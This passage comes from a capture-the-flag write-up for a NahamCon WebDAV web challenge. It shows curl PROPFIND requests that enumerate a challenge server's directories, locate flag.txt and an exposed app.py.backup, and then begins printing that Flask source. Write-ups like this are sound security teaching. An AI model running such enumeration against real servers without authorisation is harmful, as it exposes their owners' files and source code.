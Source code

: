```xml
                <D:href>/the_secret_dav_inci_code/flag.txt</D:href>
                <D:propstat>
                        <D:prop>
                                <D:displayname>flag.txt</D:displayname>
                        </D:prop>
                        <D:status>HTTP/1.1 200 OK</D:status>
                </D:propstat>
        </D:response>
</D:multistatus>
```

- so now we know where the flag is but PROPFIND does not let us read files so we need to enumerate more…


```
> curl -X PROPFIND http://challenge.nahamcon.com:30365/templates
<D:multistatus xmlns:D="DAV:"><D:response><D:href>/templates</D:href><D:propstat><D:prop><D:message>WebDAVinci Code</D:message><D:directory>True</D:directory></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>/templates/index.html</D:href><D:propstat><D:prop><D:displayname>index.html</D:displayname></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response></D:multistatus>
```

- so we can see that `code.html` is missing under templates directory

```
> curl -X PROPFIND http://challenge.nahamcon.com:30365/static
<D:multistatus xmlns:D="DAV:"><D:response><D:href>/static</D:href><D:propstat><D:prop><D:message>WebDAVinci Code</D:message><D:directory>True</D:directory></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>/static/logo01.png</D:href><D:propstat><D:prop><D:displayname>logo01.png</D:displayname></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>/static/app.py.backup</D:href><D:propstat><D:prop><D:displayname>app.py.backup</D:displayname></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response></D:multistatus>
```

- juicy file spotted : `/static/app.py.backup` !!

```python
from flask import Flask, request, Response, render_template, abort, send_from_directory
import xml.etree.ElementTree as ET
import os
import shutil

app = Flask(__name__)
os.makedirs('static', exist_ok=True)

@app.route('/static/<path:filename>')
def static_files(filename):
    return send_from_directory('static', filename)

def create_webdav_response(endpoint, properties, children=None):
    root = ET.Element('D:multistatus', {'xmlns:D': 'DAV:'})
    response = ET.SubElement(root, 'D:response')
    href = ET.SubElement(response, 'D:href')
    href.text = endpoint
    propstat = ET.SubElement(response, 'D:propstat')
    prop = ET.SubElement(propstat, 'D:prop')
    for key, value in properties.items():
        element = ET.SubElement(prop, f'D:{key}')
        element.text = value
    status = ET.SubElement(propstat, 'D:status')
    status.text = 'HTTP/1.1 200 OK'

    if children:
        for child in children:
```